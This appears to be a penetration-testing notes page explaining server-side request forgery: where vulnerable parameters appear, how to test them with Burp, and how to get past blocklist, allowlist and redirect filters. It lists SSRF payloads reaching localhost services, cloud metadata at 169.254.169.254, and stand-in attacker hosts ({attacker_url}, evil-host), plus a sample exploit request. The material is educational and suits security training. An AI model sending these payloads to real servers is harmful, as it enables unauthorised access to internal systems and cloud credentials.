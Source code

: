 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

<details>

<summary>Blacklist input filter</summary>

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1/admin
http://0/admin
http:@0/admin
http://0.0.0.0:80/admin
http://[::]:80/admin
http://[0000::1]:80/admin
http://2130706433/admin # Decimal version of localhost
http://0x7f000001/admin # Hexadecimal version of localhost
http://169.254.169.254/admin # amazon cloud
```

* Obfuscating string using URL encoded, even double URL encoded sometimes. Or sometimes the alterantive IP works but the control works with the path /admin. In this case we can encoding only the path (ex `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`)
* Registered your own domain name that resolved the `localhost` IP address.
* Swithing from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

</details>

<details>

<summary>Whilist input filter</summary>

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, for example the URL must begin with http://expected-host, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.

</details>

<details>

<summary>Open Redirection</summary>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
{% endcode %}

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

</details>





## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```







## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
